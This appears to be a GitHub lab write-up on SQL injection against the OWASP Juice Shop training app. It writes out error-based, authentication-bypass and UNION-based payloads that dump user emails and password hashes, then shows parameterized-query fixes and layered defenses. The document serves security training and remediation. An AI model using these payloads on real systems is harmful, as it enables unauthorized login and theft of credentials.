








# SQL Injection Attacks and Mitigation Techniques

### Overview
A hands-on demonstration of identifying SQL injection vulnerabilities, executing payloads for authentication bypass, error-based and union-based SQL injection, and implementing mitigation techniques like parameterized queries to secure vulnerable endpoints.

---

### Exploitation and Findings
Three categories of vulnerabilities were identified by looking at search boxes and login pages which are the injection points.
### 1. Injected Request (Error-based SQL injection)
Normal search request returning HTTP 200 OK response in a web application.
[](assets/dashboard-screenshot.png)

Adding a single quote (') breaks out of the backend SQL string context and produces a 500 Internal Server Error.
```SQL
GET /rest/products/search?q=apple' HTTP/1.1
```
[](assets/dashboard-screenshot.png)

### Root Cause:
The backend executes unhandled dynamic queries directly to the HTTP response, confirming that input sanitization is absent and the application is vulnerable to SQL injection.

### 2. Authentication Bypass
* Endpoint Tested: /api/Users/login
* Target Vector: Login Form Email field

### Normal Authentication Attempt
Entering random credentials results in an authentication error:
[](assets/dashboard-screenshot.png)

### Payload Injection
By injecting ' OR 1=1-- into the Email field, the backend query condition is manipulated to evaluate as TRUE no matter what the credentials are.
```SQL
username@test.com' OR 1=1--
```
[](assets/dashboard-screenshot.png)

### Backend Query Analysis
* Original Vulnerable Query:
  ```SQL
  SELECT * FROM users WHERE username='username@test.com' AND password='password';
  ```
* Injected Execution Query:
  ```SQL
  SELECT * FROM users WHERE username='' OR '1'='1' -- AND password='password';
  ```

### Outcome
Because '1'='1' is always true, the WHERE clause validates, bypassing the password check entirely. The application issues a valid JWT token for the first user in the database (admin@juice-sh.op), logging the attacker in as Administrator.

[](assets/dashboard-screenshot.png)

### 3. Union-Based SQL Injection
Union-based SQL Injection adds secondary queries via the UNION operator to retrieve dataset records from other database tables.

### Stage 1: Column Count Enumeration
To perform a UNION attack, the injected query must match the exact column count of the original query. Placeholders are injected iteratively into the search parameter until error status resolves:
```SQL
GET /rest/products/search?q=apple')) UNION SELECT 1,2,3 FROM Users-- HTTP/1.1
```
[](assets/dashboard-screenshot.png)

### Stage 2: Aligning Structure & Constructing Payload
Trial-and-error confirms the base query returns 9 columns. The injection is structured with 9 field placeholders matching the target table layout.
Payload Request:
```SQL
GET /rest/products/search?q=apple')) UNION SELECT id, email, password, 4, 5, 6, 7, 8, 9 FROM Users-- HTTP/1.1
```

[](assets/dashboard-screenshot.png)

### Stage 3: Sensitive Data Exfiltration
Executing the payload appends all user records (IDs, email addresses, and password hashes) directly into the JSON response body:
```SQL
{
  "id": 1,
  "name": "admin@juice-sh.op",
  "description": "0192023a7bbd73250516f069df18b500",
  "price": 4,
  "deluxePrice": 5,
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
},
{
  "id": 2,
  "name": "jim@juice-sh.op",
  "description": "e541ca7ecf72b8d1286474fc6135645",
  "price": 4,
  "deluxePrice": 5,
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
}
```

[](assets/dashboard-screenshot.png)

---

### Mitigation & Secure Code Implementation
### 1. Parameterized Queries (Prepared Statements)
* Vulnerable Implementation (Dynamic String Concatenation)
```Javascript
// Dynamic template string allows SQL command injection
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true, type: models.Sequelize.QueryTypes.SELECT }
)
```
* Secure Implementation(Parameterized Placeholders)
```Javascript
// Secure parameterized binding using $1 and $2 placeholders
return (req: Request, res: Response, next: NextFunction) => {
  models.sequelize.query(
    'SELECT * FROM Users WHERE email = $1 AND password = $2 AND deletedAt IS NULL',
    {
      bind: [req.body.email, security.hash(req.body.password)],
      model: models.User,
      plain: true
    }
  )
  .then((authenticatedUser) => {
    // Authentication logic
  });
};
```

### 2. Layered Defense Architecture
* Input Validation & Whitelisting: Server-side validation limits search parameters to alphanumeric characters. Blacklists block characters like ', ", ;, --, and /* */.

* Least Privilege Access: Database user permissions are restricted strictly to necessary operations (SELECT, INSERT, UPDATE), disabling schema manipulation commands (DROP, ALTER).

* Web Application Firewall (WAF): Deployed ModSecurity with OWASP Core Rule Set (CRS) to detect and block malicious pattern signatures before reaching application handlers.

* Secure Error Handling: Replaced verbose SQL stack traces with generic HTTP 500 error responses (An unexpected error occurred), logging full error traces strictly server-side.

---

### Technical Outcomes & Use Cases
### Key Accomplishments
* **Vulnerability Verification:** Successfully identified and exploited 3 distinct SQL Injection flaw categories.

* **Code Remediation:** Refactored vulnerable query mechanisms into secure, parameterized prepared statements.

* **Verification Testing:** Verified post-remediation resilience—all baseline exploit payloads were rendered non-functional without loss of application utility.

### Practical Industry Use Cases
* **Penetration Testing & Red Teaming:** Demonstrates standard offensive workflows for vulnerability identification, payload craft, and impact reporting.

* **Secure SDLC (SSDLC):** Shows how secure coding practices and code reviews prevent critical vulnerabilities prior to deployment.

* **Compliance & Audit Readiness:** Fulfills mandatory vulnerability testing mandates under PCI-DSS (Req 6.3.2), OWASP ASVS, and ISO/IEC 27001.

* **Security Awareness & Training:** Serves as a reference guide for developer training on threat modeling and defense-in-depth strategies.
